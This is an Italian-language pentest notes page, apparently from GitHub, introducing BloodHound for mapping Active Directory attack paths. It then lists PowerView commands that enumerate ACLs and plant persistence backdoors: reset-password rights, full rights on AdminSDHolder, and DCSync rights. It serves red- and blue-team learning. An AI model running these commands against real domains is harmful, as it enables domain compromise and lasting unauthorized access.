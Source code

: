 ![image](https://user-images.githubusercontent.com/110602224/197607322-c78d2c8b-e5cf-4a40-95fb-05f4b8df1afb.png)

##### 2. BLOODHOUND

BloodHound è un tool utile per automatizzare il mapping di utenti/autorizzazioni/risorse accessibili che usa la teoria dei grafi (https://it.wikipedia.org/wiki/Teoria_dei_grafi) per svelare i rapporti nascosti tra gli elementi dell'ambiente di Active Directory.  

Bloodhound può essere usato sia dai Red Teamers per identificare path di attacco complessi e dai Blue Teamers per individuare quelle stesse vulnerabilità tra gli elementi e porre rimedio.  
![image](https://user-images.githubusercontent.com/110602224/197609530-ac8cbed3-97eb-4903-9d50-b4fea3ad09a2.png)
![image](https://user-images.githubusercontent.com/110602224/197609590-78f771c4-676f-43ce-9f94-8be0cb42fe8e.png)

Bloodhound: https://github.com/BloodHoundAD/BloodHound/releases  
Bloodhound-Tools: https://github.com/BloodHoundAD/BloodHound-Tools  
Neo4J Docker Image: https://hub.docker.com/_/neo4j  

![image](https://user-images.githubusercontent.com/110602224/197610272-cd375467-6eb2-4a98-8a4f-56d41e5377dc.png)
![image](https://user-images.githubusercontent.com/110602224/197610837-d5c9ac6e-68de-4695-b13a-8f1f2b5c6092.png)
![image](https://user-images.githubusercontent.com/110602224/197610991-d7f9e0c9-a39b-4657-af32-40ca94963f00.png)
![image](https://user-images.githubusercontent.com/110602224/197611166-77dc718e-4607-4f0b-9e46-1ba0d59e5400.png)
![image](https://user-images.githubusercontent.com/110602224/197611342-d52e1b18-f4f8-4eaa-bc01-68d70630d28d.png)
![image](https://user-images.githubusercontent.com/110602224/197611526-1f0d9e91-b376-4406-b0dd-46220d7a9355.png)
![image](https://user-images.githubusercontent.com/110602224/197611622-3feae006-e362-4907-b146-5c5345164963.png)
![image](https://user-images.githubusercontent.com/110602224/197611700-b67955e6-f4b1-4072-9c7a-c52c684644e6.png)
![image](https://user-images.githubusercontent.com/110602224/197611870-23050a60-e028-4523-9d1e-3f418bc54030.png)

Link 1: https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/  
Link 2: https://github.com/porterhau5/BloodHound-Owned  
Link 3: https://github.com/awsmhacks/awsmBloodhoundCustomQueries  

##### 3. ACL di Active Directory

Se un utente è in grado gestire una ACL, può usarla a proprio vantaggio per compiere diverse azioni che mirano a compromettere altri utenti, client o componenti del dominio stesso.  
  
Enumerare le ACL di AD per un dato utente, risolvendo i GUID (https://it.wikipedia.org/wiki/GUID): Get-ObjectAcl -ResolveGUIDs -SamAccountName _SamAccountName_  
Comando che attribuisce all'utente _SamAccounName1_ il diritto di reimpostare la password per l'utente _SamAccountName2_ (Persistence, priv. elevati): Add-ObjectACL -TargetSamAccounName _SamAccountName2_ -PrincipalSamAccountName _SamAccountName1_ -Rights ResetPassword  
Comando che crea una "backdoor" ai permessi per _AdminSDHolder_ (https://learn.microsoft.com/it-it/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory)(Pers., priv. elevati): Add-ObjectAcl -TargetADSPrefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName _SamAccountName1_ -Verbose -Rights All  
Verifica dei permessi concessi dall'ACL per AdminSDHolder: Get-ObjectAcl -ADSprefix 'CN=AdminSDHolder,CN=System' -ResolveGUIDs | ?{$_.IdentityReference -match '_SamAccountName1_'}  
Comando per creare 'backdoor' nei controlli per la replica di informazioni dei controller, DCSync (https://blog.netwrix.com/2021/11/30/what-is-dcsync-an-introduction/): Add-ObjectAcl -TargetDistinguishedName "dc=_primaParteNomeDominio_,dc=_secondaParteNomeDominio_" -PrincipalSamAccountName _SamAccountName1_ -Rights DCSync  
Verifica degli utenti che hanno diritti DCSync: Get-ObjectACL -DistinguishedName "dc=_primaParteNomeDominio_,dc=_secondaParteNomeDominio_" -resolveGUIDs | ? {($_.ObjectType -Match 'replication-get') -or ($_.ActiveDirectoryRights -Match 'GenericAll')}  
Verifica dei permessi sulle GPO: Get-NetGPO | ForEach-Object {Get-ObjectACL -ResolveGUIDs -Name $._name} | Where-Object {$._ActiveDirectoryRights -Match 'WriteProperty'}  
Scansione per individuare ACL non comuni: Invoke-ACLScanner  
